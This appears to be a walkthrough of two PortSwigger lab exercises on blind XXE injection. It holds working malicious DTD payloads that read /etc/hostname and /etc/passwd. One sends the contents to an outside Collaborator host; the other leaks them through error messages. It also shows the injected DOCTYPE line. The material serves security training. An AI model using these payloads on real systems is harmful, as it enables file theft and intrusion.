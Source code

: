 

tags:

submit feedback
submit
feedback

### Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Place the Burp Collaborator payload into a malicious DTD file:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
7. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the ``/etc/hostname`` file.

## Exploiting blind XXE to retrieve data via error messages
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages

tag:
DTD workn't
DTD works but solution is not good


### Solution
1. Click "Go to exploit server" and save the following malicious DTD file on your server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
When imported, this page will read the contents of ``/etc/passwd`` into the ``file`` entity, and then try to use that entity in a file path.
1. Click "View exploit" and take a note of the URL for your malicious DTD.
2. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
3. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
You should see an error message containing the contents of the ``/etc/passwd`` file.
